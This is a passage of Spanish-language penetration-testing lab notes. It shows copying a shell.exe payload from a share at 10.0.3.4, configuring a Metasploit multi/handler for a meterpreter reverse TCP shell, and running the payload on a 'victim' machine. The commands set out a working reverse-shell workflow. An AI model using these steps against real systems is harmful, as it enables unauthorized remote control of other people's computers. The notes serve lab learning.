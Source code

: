         ![[Imagenes/image 21 3.png|image 21 3.png]]
        
          
        
    - Copiamos el archivo shell.exe desde el recurso compartido al directorio **temp**.
        
        `copy \\10.0.3.4\recurso\shell.exe shell.exe`
        
        ![[Imagenes/image 22 3.png|image 22 3.png]]
        
          
        
        - `use multi/handler`
        - `show options`
        - `set LHOST 10.0.3.4`
        - `set LPORT 444`
        - `set PAYLOAD windows/meterpreter/reverse_tcp`
        - `run`
            
            ![[Imagenes/image 23 3.png|image 23 3.png]]
            
    
      
    
    - Vamos a la maquina victima y ejecuto el comando shell.exe
        
        `shell.exe`
        
        ![[Imagenes/image 24 2.png|image 24 2.png]]
        
        ![[Imagenes/image 25 2.png|image 25 2.png]]
        
          
        
        Desde una meterpreter es mas fácil subir privilegios pero eso lo veremos mas adelante.